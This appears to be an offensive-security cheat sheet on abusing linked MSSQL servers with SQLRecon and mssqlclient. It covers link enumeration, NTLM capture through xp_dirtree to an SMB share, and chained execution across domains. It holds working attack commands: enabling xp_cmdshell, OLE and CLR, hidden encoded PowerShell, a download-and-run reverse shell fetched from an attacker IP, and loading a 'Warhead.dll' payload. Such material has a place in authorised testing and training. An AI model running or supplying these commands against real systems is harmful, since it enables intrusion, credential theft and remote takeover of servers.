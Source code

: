 ## Emumeration
### SQLRecon
```powershell
# Check MSSQL Server for links
.\SQLRecon.exe /a:WinToken /h:DC01 /m:links

# Execute through DC01 against any identified linked servers
.\SQLRecon.exe /a:WinToken /h:DC01 /l:APPSRV01,APPSRV02 /m:info
.\SQLRecon.exe /a:WinToken /h:DC01 /l:APPSRV01,APPSRV02 /m:whoami

# Check linked servers for further linked servers
.\SQLRecon.exe /a:WinToken /h:DC01 /l:APPSRV01,APPSRV02 /m:links

# Check impersonation on linked servers
.\SQLRecon.exe /a:WinToken /h:DC01 /l:APPSRV01,APPSRV02 /m:impersonate
```
### MSSQLClient
```bash
SQL (webapp11  dbo@master)> enum_links

<<#
Linked Server      Local Login   Is Self Mapping   Remote Login   
----------------   -----------   ---------------   ------------   
SQL11\SQLEXPRESS   NULL                        1   NULL           

SQL27              webapp11                    0   webappGroup    

SQL53              webapp11                    0   testAccount 
#

# Use link
SQL (webapp11  dbo@master)> use_link SQL27
SQL >SQL27 (webappGroup  dbo@master)> SELECT @@SERVERNAME                    
# ----------------   
# SQL27\SQLEXPRESS

# Chaining links together
SQL >SQL27 (webappGroup  dbo@master)> use_link SQL53
SQL >SQL27>SQL53 (webapps  guest@master)> SELECT @@SERVERNAME                  
# ----------------   
# SQL53\SQLEXPRESS   
```
## NTLM Capture
### SQLRecon
```powershell
.\SQLRecon.exe /a:WinToken /h:DC01 /l:APPSRV01,APPSRV02 /m:smb /unc:"\\192.168.45.223\NOT_A_REAL_SHARE"
```
### MSSQLClient
```bash
SQL >SQL53 (testAccount  dbo@master)> xp_dirtree \\192.168.45.154\Share
```


## Code Execution
### SQLRecon
```powershell
# xp_cmdshell
.\SQLRecon.exe /a:WinToken /h:APPSRV01 /l:DC01,DC02 /m:enablexp
.\SQLRecon.exe /a:WinToken /h:APPSRV01 /l:DC01,DC02 /m:xpcmd /c:"ping 192.168.45.223"

# Alternative, where "AT [SERVER]" is the target server
.\SQLRecon.exe /a:WinToken /h:RDC01.CORP1.COM /m:query /c:"EXEC('sp_configure ''show advanced options'', 1; reconfigure;') AT [DC01.CORP2.COM]"
.\SQLRecon.exe /a:WinToken /h:RDC01.CORP1.COM /m:query /c:"EXEC('sp_configure ''xp_cmdshell'', 1; reconfigure;') AT [DC01.CORP2.COM]"
.\SQLRecon.exe /a:WinToken /h:RDC01.CORP1.COM /l:DC01.CORP2.COM /m:xpcmd /c:"powershell.exe -NoLogo -NonInteractive -ep bypass -WindowS Hidden -enc JABzAGQAPQBOAGUAdwAtAE8"

# Alternative, Going through CDC01 --> Execute Query on DC01 directly to RDC01 to enable xpcmdshell
.\SQLRecon.exe /a:WinToken /h:CDC01.PROD.CORP1.COM /m:query /c:"EXEC('EXEC(''sp_configure ''''show advanced options'''', 1; reconfigure;'') AT [DC01.CORP2.COM]') AT [RDC01.CORP1.COM]"
.\SQLRecon.exe /a:WinToken /h:CDC01.PROD.CORP1.COM /m:query /c:"EXEC('EXEC(''sp_configure ''''xp_cmdshell'''', 1; reconfigure;'') AT [DC01.CORP2.COM]') AT [RDC01.CORP1.COM]"
.\SQLRecon.exe /a:WinToken /h:CDC01.PROD.CORP1.COM /l:RDC01.CORP1.COM,DC01.CORP2.COM /chain /m:xpcmd /c:"powershell.exe -NoLogo -NonInteractive -ep bypass -WindowS Hidden -enc JABzAGQAPQBOAGUAdwAtAE8"

# Revert changes
.\SQLRecon.exe /a:WinToken /h:RDC01.CORP1.COM /m:query /c:"EXEC('sp_configure ''xp_cmdshell'', 0; reconfigure;') AT [DC01.CORP2.COM]"
.\SQLRecon.exe /a:WinToken /h:RDC01.CORP1.COM /m:query /c:"EXEC('sp_configure ''show advanced options'', 0; reconfigure;') AT [DC01.CORP2.COM]"

# OLE (No command output)
.\SQLRecon.exe /a:WinToken /h:APPSRV01 /l:DC01,DC02 /m:enableole
.\SQLRecon.exe /a:WinToken /h:APPSRV01 /l:DC01,DC02 /m:olecmd /c:"powershell.exe -c iex (iwr -usebasicparsing http://192.168.45.223/reverse-shell.ps1)"

# CLR (No command output)
.\SQLRecon.exe /a:WinToken /h:APPSRV01 /l:DC01,DC02 /m:enableclr
.\SQLRecon.exe /a:WinToken /h:APPSRV01 /l:DC01,DC02 /m:clr /dll:"C:\Warhead.dll" /function:main
```
## Chaining Linked Servers
Chaining linked MSSQL servers together can create opportunities for interesting attack vectors, especially when misconfigurations are present. Consider the following scenario:

In the example below, we have access to the MSSQL instance on `APPSRV01`. We do not have any special privileges on the server, but it has a link to `DC01`. By default, linked servers can be configured to use various security contexts for linked queries, including the current login's context or a specified remote login. If the linked server is configured to use a high-privilege account such as `sa` or another privileged user, then any queries executed from `APPSRV01` to `DC01` would run in that context.

If `DC01` has a bidirectional link back to `APPSRV01` and the link is configured with a privileged login, we could potentially chain this access to gain elevated execution rights back to `APPSRV01`. This scenario could look like the following:
```
 [APPSRV01] ---> [DC01] ---> [APPSRV01]
[Unprivileged] -----------> [Privileged]
```
## Code Execution through chaining
### SQLRecon
When using SQLRecon for chained MSSQL servers we need to specify the entry server `/h:APPRSRV01` and the execution chain to follow `/l:DC01,DC02,DC03`.  For example the command below will run the initial query on `APPSRV01` which has a link to `DC01` whereby, `DC01` has a link to `DC02`  which again, `DC02` has a link to `DC03` where the final query / command is executed.
```powershell
.\SQLRecon.exe /a:WinToken /h:APPSRV01 /l:DC01,DC02,DC03 /chain /m:xpcmd /c:"ping 192.168.45.223"

# Execution chain
# [APPSRV01] ---> [DC01] ----> [DC02] ---> [DC03]
```
Code and query execution can be followed at the top of the document for syntax examples. We just need to ensure we specify the correct chain order `/l:1,2,3` and ensure `/chain` is specified as a parameter.
